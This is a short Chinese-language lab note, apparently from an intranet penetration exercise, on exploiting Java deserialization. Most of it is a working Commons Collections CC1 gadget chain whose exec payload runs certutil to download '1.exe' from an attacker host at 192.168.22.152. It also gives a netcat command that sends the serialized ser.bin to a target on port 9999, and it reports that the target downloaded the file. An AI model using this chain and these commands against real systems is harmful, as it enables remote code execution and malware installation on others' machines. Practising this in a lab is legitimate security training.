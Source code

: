 

cc1 本地运行

```java
@Test
    public void test_10() throws Exception {
        Transformer[] transformers =new Transformer[]{
                new ConstantTransformer(Runtime.class),
                new InvokerTransformer("getMethod",new Class[]{String.class,Class[].class},new Object[]{"getRuntime",null}),
                new InvokerTransformer("invoke",new Class[]{Object.class,Object[].class},new Object[]{null,null}),
                new InvokerTransformer("exec",new Class[]{String.class},new Object[]{"certutil -urlcache -split -f http://192.168.22.152/1.exe C:/windows/temp/1.exe"})
        };
        ChainedTransformer chainedTransformer = new ChainedTransformer(transformers);

        HashMap<Object, Object> map = new HashMap<Object, Object>();
        map.put("value", "s"); //设置map的值
        Map<Object, Object> TransformedMapMethod =
                TransformedMap.decorate(map, null, chainedTransformer);
        Class<?> c = Class.forName("sun.reflect.annotation.AnnotationInvocationHandler");
        Constructor<?> annotationInvocationConstructor =
                c.getDeclaredConstructor(Class.class, Map.class);
        annotationInvocationConstructor.setAccessible(true);
        Object o = annotationInvocationConstructor.newInstance(Target.class, TransformedMapMethod);
        serialize(o);
//        unserialize();
    }

public static void serialize(Object obj) throws Exception {
        ObjectOutputStream outputStream = new ObjectOutputStream( new FileOutputStream("ser.bin"));
        outputStream.writeObject(obj);
        outputStream.close();
    }
public static void unserialize() throws  Exception{
        ObjectInputStream inputStream = new ObjectInputStream( new FileInputStream("ser.bin"));
        Object obj = inputStream.readObject();
```



用 nc 来传输

```
type ser.bin | nc64.exe -vn 192.168.22.146 9999
```

我打的 是 lazymap 的 cc1，cc1 都行 

进入 data 靶机看看，成功看到下载
